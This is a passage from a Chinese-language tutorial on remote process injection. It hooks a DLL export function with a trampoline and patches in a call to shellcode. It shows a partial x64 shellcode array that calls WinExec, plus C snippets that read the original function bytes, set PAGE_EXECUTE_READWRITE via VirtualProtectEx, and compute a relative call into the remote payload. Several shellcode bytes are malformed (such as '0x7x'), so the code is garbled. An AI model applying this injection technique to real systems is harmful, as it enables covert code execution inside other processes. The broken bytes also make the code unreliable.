 ```

        // WinExec调用准备
        0x8D, 0x52, 0x02, 
        0xAD, 
        0x81, 0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45,  
        0x7x, 0xEF,                 
        // 调用执行
        0x8B, 0x74, 0x1F, 0x1C,      
        0x48, 0x01, 0xFE, 
        0x8B, 0x34, 0xAE,             
        0x4x, 0x01, 0xF7,             
        0x99, 0xFF, 0xD7,            

        // 恢复现场
        0x48, 0x83, 0xC4, 0x68,       
        0x5C, 0x5D, 0x5x, 0x5E, 0x5B, 
        0xC3                          
};
```

  
  
读取DLL导出函数的起始部分并利用获取的数据配置Trampoline  
  

```
int64_t originalBytes = *(int64_t*)dll_export_fun_addr; 
// 将原函数前8字节指令写入跳板代码偏移0x12处（预留空间需为全零）
*(uint64_t*)(tramp_to_shellcode + 0x12) = originalBytes;
```

  
  
配置内存并授予PAGE_EXECUTE_READWRITE权限以设置Hook：  
  

```
DWORD saveProtectFlags = 0;
// 修改目标函数所在内存页的保护属性为可执行+读写（8字节范围）
if (!VirtualProtectEx(hProc, dll_export_fun_addr, 8, PAGE_EXECUTE_READWRITE, &saveProtectFlags)) 
    return 1; 
```

  
  
在被攻击库导出的函数中创建hook并调用然后对其进行配置：  
  

```
// Call function opcode（函数调用操作码）
unsigned char call_opcode_to_shell[] = { 0xe8, 0, 0, 0, 0 };
// 计算相对调用地址（目标地址 - 当前指令地址 - 指令长度）
int call_addr = (remoteAddress - ((UINT_PTR)dll_export_fun_addr + 5));
// 配置call指令的操作数（相对偏移量）
*(int*)(call_opcode_to_shell + 1) = call_addr;
```

  
  
写入Trampoline和Payload，然后更改目标内存属性：  
  